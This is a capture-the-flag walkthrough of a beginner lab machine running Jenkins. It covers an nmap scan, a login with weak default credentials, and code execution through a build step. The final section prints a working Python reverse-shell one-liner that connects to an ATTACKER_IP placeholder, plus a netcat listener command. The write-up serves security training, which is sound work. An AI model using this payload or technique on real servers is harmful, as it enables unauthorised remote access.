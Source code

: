 # Pennyworth

##### Difficulty: [ Very Easy ]

**Tags:** `Linux`,  `Web`,  `Java`,  `Weak Password`,  `Jenkins`

---

##### Written: 21/12/2021

##### IP address: 10.129.82.175

---

### [ What does the acronym CVE stand for? ]

**Common Vulnerabilities and Exposures**

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

**Confidentiality, Integrity, Availability**

---

### [ What is the version of the service running on port 8080? ]

Let's run an **Nmap** scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that only **1** port is open: **8080** (HTTP)

The service version running is **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit http://10.129.82.175:8080

<img style="float: left;" src="screenshots/screenshot2.png">''

We are brought to a **Jenkins** login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in - **root:password**

<img style="float: left;" src="screenshots/screenshot3.png">

From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]

<img style="float: left;" src="screenshots/screenshot4.png">

**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

**cmd.exe**

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

**ifconfig**

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

**-u**

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

**reverse shell**

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:

<img style="float: left;" src="screenshots/screenshot5.png">

Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:

<img style="float: left;" src="screenshots/screenshot6.png">

After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:

<img style="float: left;" src="screenshots/screenshot7.png">

*(There should only be 1 entry, I've already built multiple times.)*

Click on the new entry, then click on **Console Output**:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice! The `id` command was successfully run and we have achieved **remote code execution**. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.

<img style="float: left;" src="screenshots/screenshot9.png">

The reverse shell is opened and we're in!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot10.png">
